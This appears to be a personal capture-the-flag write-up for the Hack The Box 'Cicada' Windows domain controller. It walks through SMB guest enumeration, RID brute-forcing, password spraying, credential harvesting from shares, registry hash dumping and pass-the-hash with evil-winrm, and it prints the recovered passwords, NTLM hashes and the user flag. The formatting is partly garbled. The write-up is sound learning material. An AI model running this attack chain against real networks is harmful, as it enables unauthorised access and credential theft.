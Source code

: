 Add to hosts:
echo '10.10.11.35 cicada.htb' \| sudo tee -a /etc/hosts

# Enumeration

nmap scan:

``` ┌──(kali㉿kali)-[~/desktop/cicada]
└─$ sudo nmap -sV  cicada.htb
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-01 15:17 EST
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.090s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-02 03:17:27Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.12 seconds
```

A lot of windows'y stuff going on, as we discussed in BHC 445 hosting a SMB service is a classic, but 464 used for Keinrberos password reset also looks interesting!

This page https://0xdf.gitlab.io/cheatsheets/smb-enum lists some tools for SMB hacking

netexec https://www.netexec.wiki/ was recommneded by Johanthan in the BHC slack, and
un 'guest', pw '' works

    nxc smb cicada.htb -u 'guest' -p '' -M spider_plus

<img src="Cicada-media/2072af7d17789874faf9928c16435aec45790da0.png"
class="wikilink" alt="Pastedimage20250201123559.png" />
We can read the 'HR' folder

Looking for users:
nxc smb cicada.htb -u 'guest' -p '' --rid-brute

<img src="Cicada-media/c66056ad8c549ef119d9366084ebe3554fb860f3.png"
class="wikilink" alt="Pastedimage20250201124741.png" />
\# Initial Foothold
Using smbclient to explore the HR folder
<img src="Cicada-media/d4697b1e50ecdaf03c1e7bdbf0a11f13003f8ae5.png"
class="wikilink" alt="Pastedimage20250201125127.png" />
Downloading the "Notice from HR.txt" reveals a default password but no user:
<img src="Cicada-media/76f615d7b0cf1387ca3c198872eb06c70665f394.png"
class="wikilink" alt="Pastedimage20250201125825.png" />
i.e. we have an 'orphan' password Cicada\$M6Corpb\*@Lp#nZp!8

# Lateral movement

## Finding a user for the password:

Collect output from the user name scan above

     nxc smb cicada.htb -u 'guest' -p '' --rid-brute >> ~/Desktop/cicada/smbusers.txt 

And clean it up to only hold the usernames:

    cat ~/Desktop/cicada/smbusers.txt | grep SidTypeUser | awk '{print $6}' | cut -c 8- >> smbusers_clean.txt 

And chew through that list using netexec
nxc smb cicada.htb -u \~/Desktop/cicada/smbusers_clean.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
![[Pasted image 20250201135053.png]]
Reveals that the orphan pw belongs to `michael.wrightson`
and that `david.orelious` has left a note with a pw: `aRt$Lp#7t\*VQ!3\`

### Trying `michael.wrightson`

    nxc smb cicada.htb -u 'michael.wrightsonmichael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares

<img src="Cicada-media/1da37579ea07f92cba72d9f43d802611c70687c6.png"
class="wikilink" alt="Pastedimage20250201140116.png" />
Accessing michael user using smblient lets us enumerate the shares

No additional access:
<img src="Cicada-media/277d108b39669ba8025c692c3b1be6a874437eaf.png"
class="wikilink" alt="Pastedimage20250201141022.png" />

### Trying `david.orelious`

pw: aRt$Lp#7t*VQ!3
```
nxc smb cicada.htb -u 'david.orelious' -p 'aRt$Lp#7t\*VQ!3' --shares


    ![[Pasted image 20250201141812.png]]
    Read acces to 'DEV', messing around with smbclient gives:

smbclient //cicada.htb/DEV -U 'david.orelious' 'aRt\$Lp#7t\*VQ!3'

    ![[Pasted image 20250201141515.png]]
    A Backsupscript:
    ![[Pasted image 20250201142037.png]]
    with yet another user and password
    emily.oscars
    Q!3@Lp#M6b*7t*Vt

    ### Trying emily.oscars

nxc smb cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares


    ![[Pasted image 20250201142908.png]]
    Has access to ADMIN$ and C$

smbclient //cicada.htb/C\$ -U 'emily.oscars' 'Q!3@Lp#M6b*7t*Vt'

    user flag is on emily's Desktop
    ![[Pasted image 20250201143728.png]]
    d3d03d715fe10183d0b513b67ecc91ae

    # Privilege Escalation
    https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/
    see under Load Powershell Script
    Load mimikatz for evil-winrm
    https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1

    - Did NOT work (newer windows are immune to Mimikatz)

    Trying to enumerate hashed passwords using procedure here:
    https://www.varonis.com/blog/exfiltrate-ntlm-hashes


    On the remote, download and save the registry information
    ![[Pasted image 20250201164056.png]]

    extract the hashes using pypykatz

    ![[Pasted image 20250201163845.png]]
    We now have an admin hash to pass, 

HBoot Key: a1c299e572ff8c643a857d3fdb3e5c7c10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


    and use evil-winrm in hash mode to gain access

evil-winrm -i cicada.htb -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
\`\`\`

<figure>
<img src="Cicada-media/87e9d7cf3db00edf79c11fefa8dec2e41a95f72d.png"
class="wikilink" alt="Pastedimage20250201164642.png" />
<figcaption
aria-hidden="true">Pastedimage20250201164642.png</figcaption>
</figure>
